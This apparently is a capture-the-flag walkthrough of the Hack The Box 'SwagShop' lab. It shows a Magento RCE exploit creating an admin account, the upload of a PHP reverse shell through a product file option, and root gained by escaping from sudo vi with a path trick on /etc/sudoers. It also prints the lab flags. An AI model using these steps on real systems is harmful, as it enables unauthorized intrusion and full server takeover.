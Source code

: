 ```yaml
---
layout: post
author: msameer234
---
```

<br />
+=================================================================+<br />
								SCANNING<br />
+=================================================================+<br />
 nmap 10.10.10.140<br />
	PORT   STATE SERVICE<br />
	22/tcp open  ssh<br />
	80/tcp open  http

+=================================================================+<br />
							  ENUMERATION<br />
+=================================================================+

 Wibsite hosted on port 80/http --- SwagShop -- Shoping Site<br />
	Using Magento CMS --- found it by wappalyzer.<br />
	<br />
	Found RCE of Magento: <br />
		command used: searchsploit Magento<br />
			Magento eCommerce - Remote Code Execution  <br />
			/usr/share/exploitdb/exploits/xml/webapps/37977.py<br />
	Copy the exploit and edit it, then set your target: <br />
		e.g. target = "http://10.10.10.140/index.php/"<br />
	and save it.<br />
	<br />
	Now execute it as:<br />
		python exploit.py<br />
		it creates an admin account with username "forme" and password "forme":<br />
		Now login at : http://10.10.10.140/index.php/admin -->> Found this by Dirbuster<br />
		I tried to upload php shell, but I couldn't.<br />
		Then I found a way to create a new product-- added an option that asks user to upload a file with extension .php<br />
	<br />
	Now make an order of the created product and upload the file php-reverse-shell.<br />
	And start multi-handler of uploaded shell on msfconsole<br />
<br />
	Here you can access your uploaded shell on server: <br />
		http://10.10.10.140/media/custom_options/order/p/h/<br />
		found media folder by dirbuster.. then did some search after uploading the shell..<br />
		Set up listener and get the reverse_shell.<br />
<br />
	Now navigate to /home/haris/<br />
<br />
	there is user.txt fie which contains user flag: a448877277e82f05e5ddf9f90aefbac8<br />
<br />
+=================================================================+<br />
						   PRIVILEGE-ESCALATION<br />
+=================================================================+<br />
<br />
Type Command:<br />
	sudo -l and hit enter<br />
Output:<br />
	Matching Defaults entries for www-data on swagshop:<br />
    		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin<br />
<br />
	User www-data may run the following commands on swagshop:<br />
    		(root) NOPASSWD: /usr/bin/vi /var/www/html/*<br />
<br />
	<br />
Here we found we can access all files from "/var/www/html/" directory and vi text editor from "/usr/bin/" directory with root privileges.<br />
<br />
lets create a tty first as it is not there:<br />
python3 is installed:<br />
the command is: <br />
	python3 -c 'import pty;pty.spawn("/bin/sh")'<br />
<br />
Now, lets edit any file from /var/www/html/ directory with vi using sudo:<br />
<br />
cd /home/haris<br />
<br />
sudo vi /var/www/html/../../../etc/sudoers<br />
<br />
Now to enter into Command Mode and execute the command /bin/sh type in    :!/bin/sh     and hit enter<br />
<br />
and we got root..<br />
<br />
Navigating to /root/ directory..<br />
cd /root<br />
cat root.txt<br />
c2b087d66e14a652a3b86a130ac56721<br />
<br />
   ___<br /> ___
 /| |/|\| |\<br />
/_| ´ |.` |_\           We are open! (Almost)<br />
  |   |.  |<br />
  |   |.  |         Join the beta HTB Swag Store!<br />
  |___|.__|       https://hackthebox.store/password<br />
<br />
                   PS: Use root flag as password!<br />
<br />
<br />
<br />
<br />
And we got flag in root.txt file: c2b087d66e14a652a3b86a130ac56721<br />
<br />
Finish..!!!<br />
<br />
<br /><br /><br />
